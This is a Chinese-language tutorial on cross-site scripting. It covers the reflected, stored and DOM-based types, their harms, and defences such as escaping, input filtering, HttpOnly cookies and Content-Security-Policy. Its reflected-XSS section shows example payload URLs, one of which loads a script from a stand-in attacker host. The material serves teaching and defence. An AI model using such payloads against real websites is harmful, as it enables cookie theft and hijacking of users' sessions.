



# XSS攻击

> 本文转载至：[给你讲清楚什么是XSS攻击 - 程序员自由之路 - 博客园 (cnblogs.com)](https://www.cnblogs.com/54chensongxia/p/11643787.html)

## 一. 什么是XSS攻击

跨站脚本攻击（Cross Site Scripting）本来的缩写为CSS，为了与层叠样式表（Cascading Style Sheets，CSS）的缩写进行区分，将跨站脚本攻击缩写为XSS。因此XSS是跨站脚本的意思。

XSS跨站脚本攻击（Cross Site Scripting）的本质是攻击者在web页面插入恶意的script代码（这个代码可以是JS脚本、CSS样式或者其他意料之外的代码），当用户浏览该页面之时，嵌入其中的script代码会被执行，从而达到恶意攻击用户的目的。比如读取cookie，token或者网站其他敏感的网站信息，对用户进行钓鱼欺诈等。比较经典的事故有：

> 2011年6月28日，新浪微博被XSS攻击，大量用户自动转发微博、私信。自动关注用户，大量用户被莫名其妙地控制。因为可以使用JS代码代替用户单击按钮发送请求，所以损坏非常大。

### 1.1 XSS攻击的危害

- 通过 document.cookie 盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 二. XSS攻击的类型

### 2.1 反射型XSS攻击

反射型XSS漏洞常见于通过URL传递参数的功能，如网站搜索，跳转等。由于需要用户主动打开恶意的URL才能生效，攻击者往往会结合多种手段诱导用户点击。比如下面的URL：

```
http://x.x.x.x:8080/dosomething?message="<script src="http://www.hacktest.com:8002/xss/hacker.js"></script>"

或者

http://localhost/test.php?param=<script>alert(/xss/)</script>
```

POST的内容也可以触发反射型XSS，只不过它的触发条件比较苛刻（构建表单提交页面，并引导用户点击），所以非常少见。

**反射型XSS的攻击步骤**

1.攻击者构造出特殊的URL，其中包含恶意代码.
2.用户打开有恶意代码的URL时，网站服务器端将恶意代码从URL取出，拼接在HTML返回给浏览器.
3.用户浏览器接收到响应后解析执行，混在其中的恶意代码也会被执行。
4.恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户行为，调用目标网站接口执行攻击者指定的操作。

在网上找了一个大致示意图，凑合着看。


**注意：**Chrome和Safari能够检测到url上的xss攻击，将网页拦截掉，但是其他浏览器不行，如IE和Firefox。

**防御反射型XSS攻击**

1. 对输入检查
   对请求参数进行检查，一旦发现可疑的特殊字符就拒绝请求。需要注意的是用户可以绕过浏览器的检查，直接通过Postman等工具进行请求，所以这个检查最好前后端都做。
2. 对输出进行转义再显示
   通过上面的介绍可以看出，反射型XSS攻击要进行攻击的话需要在前端页面进行显示。所以在输出数据之前对潜在的威胁的字符进行编码、转义也是防御XSS攻击十分有效的措施。比如下面的方式:

```js
Copyapp.get('/welcome',function(req,res){
  //对查询参数进行编码，避免反射型 XSS攻击
  res.send(`${encodeURIComponent(req.query.type)}`);
})
```

### 2.2 存储型XSS攻击

恶意脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器传回并执行，影响范围比反射型和DOM型XSS更大。存储型XSS攻击的原因仍然是没有做好数据过滤：前端提交数据至服务器端时，没有做好过滤;服务端在按受到数据时，在存储之前，没有做过滤;前端从服务器端请求到数据，没有过滤输出。

比较常见的场景是，黑客写下一篇包含有恶意JavaScript代码的博客文章，文章发表后，所有访问该博客的用户，都会在他们的浏览器中执行这段恶意js代码。

**存储型XSS的攻击步骤**

1.攻击者将恶意代码提交到目标网站的数据库中。
2.用户打开目标网站时，网站服务端将恶意代码从数据库中取出，拼接在HTML中返回给浏览器。
3.用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4.恶意代码窃取用户数据并发送到攻击者的网站，或冒充用户行为，凋用目标网站接口执行攻击者指定的操作.
这种攻击常见于带有用户保存数据的网站功能，如论坛发帖，商品评论，用户私信等。



**预防存储型XSS攻击**
预防存储型XSS攻击也是从输入和输出两个方面来考虑。

- 服务器接收到数据，在存储到数据库之前，进行转义和过滤危险字符;
- 前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤;

不论是反射型攻击还是存储型，攻击者总需要找到两个要点，即“输入点”与"输出点"，也只有这两者都满足，XSS攻击才会生效。“输入点”用于向 web页面注入所需的攻击代码，而“输出点”就是攻击代码被执行的地方。

### 2.3 DOM型XSS

DOM型XSS攻击，实际上就是前端javascript代码不够严谨，把不可信的内容插入到了页面，在使用.innerHTML、.outerHTML、.appendChild、document.write()等API时要特别小心，不要把不可信的数据作为HTML插入到页面上，尽量使用.innerText、.textContent、.setAttribut()等.

**DOM型XSS攻击步骤**

1.攻击者构造出特殊数据，其中包含恶意代码。
2.用户浏览器执行了恶意代码
3.恶意窃取用户数据并发送到攻击者的网站，或冒充用户行为，调用目标网站接口执行攻击者指定的操作.

DOM型XSS攻击中，取出和执行恶意代码由浏览器端完成，属于前端javascript自身的安全漏洞.

### 2.4 简单总结



## 三. 一些其他的防范策略

- HTTP-only Cookie:禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此Cookie属性：防止脚本冒充用户提交危险操作
- 在服务端使用HTTP的Content-Security-Policy头部来指定策略，或者在前端设置meta标答。例如下面的配置只允许加载同域下的资源:

```js
CopyContent-Security-Policy:default-src 'self'`请输入代码`

<meta http-equiv="Content-Security-Policy" content="form-action 'self';">
```

- 当然也可以使用线程的安全扫描工具来检测。

就目前而言，应对XSS攻击的主要手段还是编码与过滤两种，编码用于将特殊的符号 "<、>、&、'、""进行**html转义**，而过滤则是阻止特定的标记、属性、事件。如果你不愿意为了严格的安全而限制产品本身的灵活，那么我更建议采用“编码”的方案。